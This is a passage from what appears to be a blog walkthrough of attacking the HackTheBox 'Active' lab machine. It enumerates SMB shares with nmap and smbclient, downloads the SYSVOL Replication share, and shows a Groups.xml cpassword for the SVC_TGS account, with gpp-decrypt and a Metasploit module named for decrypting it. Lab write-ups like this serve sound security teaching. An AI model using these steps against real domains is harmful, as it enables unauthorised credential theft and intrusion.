 - **Using Metaspolit Module**

		smb_enum_gpp

    ![](https://auti.dev/images/blog/compromising-ad/gppmsf.png)


- **or getting the `groups.xml` manaully and then using ** ` gpp-decrypt ` **tool on Linux**

    ![](https://auti.dev/images/blog/compromising-ad/gppdecrypt.png)


<br>

### Exploiting "Active" Machine on HacktheBox

Active Machine Link: https://app.hackthebox.eu/machines/148

nmap scan

	nmap -T5 10.10.10.100
	
Notice the open ports 

	53		domain
	88		Kerberos-sec
	389 	ldap
	445* 	microsoft-ds
	636		ldapssl

You may try msf module `smb_enum_gpp`

OR Just manually get the groups.xml file!

Look at 445, the attack involves **using SMB** (which contains **SYSVOL Folder**)

Lets Go!

	smbclient -L \\\\10.10.10.100\\
	
Lets Connect using **Replication**

	smbclient -L \\\\10.10.10.100\\Replication
	
We got **Access** to dat machine!

Now **change some settings**:

	prompt off
	
	recurse on
	
**Grab** them Files!

	mget *
	
We see **Groups.xml**, we have

	name="active.htb\SVC_TGS"
	cpassword="edBSHOwhZLTjt/QS9FeIcJ83mjWA98gw9guKOhJOdcqh+ZGMeXOsQbCpZ3xUjTLfCuNH8pG5aSVYdYw/NglVmQ"

now :) **Pro Gamer Move!**
